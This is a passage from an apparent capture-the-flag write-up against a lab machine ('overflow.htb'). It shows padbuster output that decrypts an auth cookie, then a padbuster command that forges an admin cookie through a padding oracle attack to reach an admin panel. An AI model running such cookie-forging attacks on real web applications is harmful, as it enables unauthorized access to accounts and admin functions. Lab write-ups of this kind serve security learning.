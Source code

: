 ```bash
[+] Success: (6/256) [Byte 8]
[+] Success: (205/256) [Byte 7]
[+] Success: (28/256) [Byte 6]
[+] Success: (47/256) [Byte 5]
[+] Success: (79/256) [Byte 4]
[+] Success: (8/256) [Byte 3]
[+] Success: (232/256) [Byte 2]
[+] Success: (241/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): ecdde3d239c1a1a8
[+] Intermediate Bytes (HEX): 071ffeb4d5e731fb
[+] Plain Text: e

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=caue

[+] Decrypted value (HEX): 757365723D6361756507070707070707

[+] Decrypted value (Base64): dXNlcj1jYXVlBwcHBwcHBw==

-------------------------------------------------------
```

We have successfully decrypted the cookie! The cipher value is `user=caue`, which was the username registered. Now that we know the cipher value syntax, we’ll use _padbuster_ to generate a new cipher for admin:
```bash
$ padbuster http://overflow.htb/login.php "8NDZLZGXTnJiGPmz0uA2%2FOzd49I5waGo" 8 -cookie "auth=8NDZLZGXTnJiGPmz0uA2%2FOzd49I5waGo" -encoding 0 -plaintext "user=admin"

...[snip]...

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------
```

Great! We have the `admin` cookie! We can open the browser developer tools and change the current cookie to this one. As soon as we refresh the page we get an "Admin Panel" menu option: